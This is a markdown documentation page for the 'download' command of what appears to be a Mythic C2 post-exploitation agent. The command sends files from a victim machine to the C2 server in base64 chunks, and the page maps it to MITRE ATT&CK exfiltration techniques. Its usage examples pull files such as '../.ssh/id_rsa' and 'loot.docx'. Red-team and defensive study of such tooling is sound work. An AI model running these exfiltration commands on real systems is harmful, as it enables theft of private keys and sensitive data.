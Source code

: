 # 📥 `download` Command – Retrieve Remote Files

The `download` command transfers a file from the target (agent) machine back to the **Mythic server**, in **base64-encoded chunks**. It is an essential tool for extracting credentials, config files, and sensitive artifacts during post-exploitation.

---

## 🧾 Arguments

| Argument | Type     | Description                      | Required |
|----------|----------|----------------------------------|----------|
| `file`   | `string` | Absolute or relative path to file on the victim system | ✅ Yes   |

- You can provide the path directly, with or without quotes.
- Handles files on Windows, Linux, or macOS platforms.

---

## 💻 Usage Examples

```bash
download /home/user/secrets.txt
download C:\\Users\\Admin\\Desktop\\loot.docx
download ../.ssh/id_rsa
```

---

## 🔁 Behavior

- Resolves the path relative to the agent’s current directory if not absolute.
- Splits the file into chunks based on `CHUNK_SIZE`.
- Encodes each chunk in Base64 and sends it back to Mythic.
- Supports stopping mid-download if the task is cancelled.
- Returns a final JSON response containing the agent file ID.


---

## 🧩 MITRE ATT&CK Mapping

| Technique ID | Name                                |
|--------------|-------------------------------------|
| T1020        | Automated Exfiltration              |
| T1030        | Data Transfer Size Limits           |
| T1041        | Exfiltration Over C2 Channel        |

---

## 📦 File Transfer Workflow

1. 🧠 Client requests file download.
2. 📊 Agent calculates total chunks and chunk size.
3. 🧱 File is read in binary mode and divided.
4. 🔐 Each chunk is Base64 encoded and posted to Mythic.
5. 🧾 Final response includes unique file ID.

---

## ✅ Supported Platforms

- ✅ Linux
- ✅ Windows
- ✅ macOS

Compatible with:
- Python 3.8+

---

## 🔐 Permissions

- Does **not** require administrative privileges.
- Agent must have **read access** to the specified file.

---


